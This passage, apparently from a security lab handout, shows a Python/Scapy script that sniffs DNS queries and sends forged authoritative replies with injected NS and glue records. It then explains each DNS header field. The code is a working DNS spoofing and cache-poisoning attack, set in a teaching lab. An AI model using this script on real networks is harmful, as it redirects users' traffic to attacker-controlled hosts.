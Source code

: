   <tr>

   <td width="566">#!/usr/bin/python from scapy.all import *def spoof_dns(pkt): if (DNS in pkt and ’www.example.net’ in pkt[DNS].qd.qname):# Swap the source and destination IP addressIPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)# Swap the source and destination port number UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)# The Answer SectionAnssec = DNSRR(rrname=pkt[DNS].qd.qname, type=’A’, ttl=259200, rdata=’10.0.2.5’)# The Authority SectionNSsec1 = DNSRR(rrname=’example.net’, type=’NS’, ttl=259200, rdata=’ns1.example.net’)NSsec2 = DNSRR(rrname=’example.net’, type=’NS’, ttl=259200, rdata=’ns2.example.net’)# The Additional SectionAddsec1 = DNSRR(rrname=’ns1.example.net’, type=’A’, ttl=259200, rdata=’1.2.3.4’)Addsec2 = DNSRR(rrname=’ns2.example.net’, type=’A’, ttl=259200, rdata=’5.6.7.8’)# Construct the DNS packetDNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=2, an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)# Construct the entire IP packet and send it out spoofpkt = IPpkt/UDPpkt/DNSpkt send(spoofpkt)# Sniff UDP query packets and invoke spoof_dns().pkt = sniff(filter=’udp and dst port 53’, prn=spoof_dns)</td>

   <td width="58">À</td>

  </tr>

 </tbody>

</table>

Line À constructs the DNS payload, including DNS header and data. Each field of the DNS payload is explained in the following:

<ul>

 <li>id: Transaction ID; should be the same as that in the request.</li>

 <li>qd: Query Domain; should be the same as that in the Request.</li>

 <li>aa: Authoritative answer (1 means that the answer contains Authoritative answer).</li>

 <li>rd: Recursion Desired (0 means to disable Recursive queries).</li>

 <li>qr: Query Response bit (1 means Response).</li>

 <li>qdcount: number of query domains.</li>

 <li>ancount: number of records in the Answer section.</li>

 <li>nscount: number of records in the Authority section.</li>

 <li>arcount: number of records in the Additional section.</li>

 <li>an: Answer section</li>

 <li>ns: Authority section</li>

 <li>ar: Additional section</li>

</ul>